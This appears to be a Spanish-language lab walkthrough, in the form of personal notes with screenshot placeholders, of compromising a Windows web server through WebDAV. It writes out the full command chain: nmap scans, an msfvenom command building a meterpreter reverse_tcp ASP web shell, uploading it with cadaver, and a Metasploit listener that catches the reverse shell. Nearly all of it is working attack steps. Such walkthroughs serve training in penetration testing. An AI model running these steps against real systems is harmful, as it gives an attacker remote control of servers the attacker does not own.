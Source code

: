 Primero realizamos un escaneo del host basico
nmap 10.2.29.88
![[Pasted image 20240307130932.png]]

Realizamos un escaneo mas preciso sobre el puerto que queremos explotar
nmap -sV -p 80 --script http-enum
![[Pasted image 20240307131243.png]]


Generaramos el  exploit
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=1234 -f asp > shell.asp![[Pasted image 20240307134246.png]]


Ahora nos conectaremos al servidor utilizando la herramienta cadaver
cadaver http://10.2.29.88/webdav
![[Pasted image 20240307134711.png]]

Una vez dentro cargaremos el archivo
put /root/shell.asp
![[Pasted image 20240307134802.png]]

Ahora si accedemos al navegador a la ruta webdav podremos ver el archivo cargado
![[Pasted image 20240307134914.png]]

Antes de ejecutar el exploit en la maquina victima tendremos que esciuchar desde nuestra maquina atacante, para ello ejecutaremos metasploit y la BBDD de postgresql que sera necesario
service postgresql start && msfconsole
![[Pasted image 20240307135132.png]]

Utilizaremos una carga util que utilizaremos para hacer nuestra maquina host oyente
![[Pasted image 20240307135450.png]]

Configuraremos el exploit para que utilice nuestra IP y el puerto que hemos configurado en el payload que hemos cargado en la maquina y como veremos en la siguiente captura, una vez ejecutado estaremos escuchando desde nuestro host, ahora solo faltara ejecutar el paylaod en la maquina victima
![[Pasted image 20240307135653.png]]

Como podemos ver en esta imagen una vez ejecutado el payload en la maquina victima obtenemos acceso en nuestro host.
![[Pasted image 20240307142800.png]]



